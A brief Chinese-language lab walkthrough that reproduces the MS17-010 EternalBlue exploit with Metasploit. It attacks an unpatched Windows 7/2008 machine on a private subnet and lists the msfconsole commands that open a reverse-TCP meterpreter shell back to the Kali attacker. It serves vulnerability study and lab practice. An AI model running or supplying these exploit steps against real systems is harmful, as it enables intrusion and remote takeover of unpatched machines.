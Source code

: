 # 漏洞利用复现

## No.1

### 实验环境

攻击机：kali（32位或64位均可）192.168.1.101

被攻击机：win7（未修补布丁）2008sp2 192.168.1.102

先说结论：进行攻击时，会导致被攻击机蓝屏（32位）原因不明（在攻击2008sp2时，也会造成被攻击机蓝屏

## 开搞

### No.1

获取攻击机IP：ifconfig

获取被攻击机：ipconfig

### No.2

开启被攻击机的网络共享功能

windows2008则开启网络发现功能

同时关闭机器上的防火墙

### No.3

开始攻击：

kali端切换到root模式下

msfconsole 开启神器

use exploit/windows/smb/ms17_010_eternablue 指定使用的漏洞

set payload windows/x64/meterpreter/reverse_tcp 设置tcp连接

set lhost 192.168.1.101 设置攻击机IP地址

set rhost 192.168.1.102 设置被攻击机IP地址

run  	最后一步：开启攻击

**-------------------结束------------------ **

